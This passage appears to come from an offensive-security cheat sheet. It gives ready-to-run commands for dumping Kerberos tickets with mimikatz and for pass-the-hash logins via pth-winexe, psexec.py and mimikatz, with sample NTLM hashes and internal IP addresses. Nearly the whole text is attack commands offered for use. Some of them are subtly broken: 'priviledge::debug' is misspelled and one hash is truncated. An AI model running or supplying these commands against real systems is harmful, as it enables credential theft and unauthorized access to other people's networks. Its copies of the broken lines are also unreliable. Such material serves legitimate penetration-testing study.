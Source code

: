 Dump Kerberos TGT and service tickets:

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::tickets" exit
```

### Pass the hash

Allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password

```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e Administrator@10.0.0.4
```

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::pth /user:jeff /domain:doamin /ntlm:d4ad8b9f8ccb87f6d02d7388157ae" exit
```
